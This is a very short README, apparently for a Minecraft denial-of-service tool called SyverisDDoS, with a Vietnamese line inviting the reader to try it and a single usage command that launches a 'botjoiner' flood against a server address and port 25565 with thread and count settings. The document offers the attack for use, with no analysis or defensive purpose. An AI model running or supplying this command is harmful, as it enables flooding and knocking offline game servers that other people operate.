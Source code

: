 # vô và trải nghiệm đi 
**code** :  ``cd 1`` ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``

**bye**
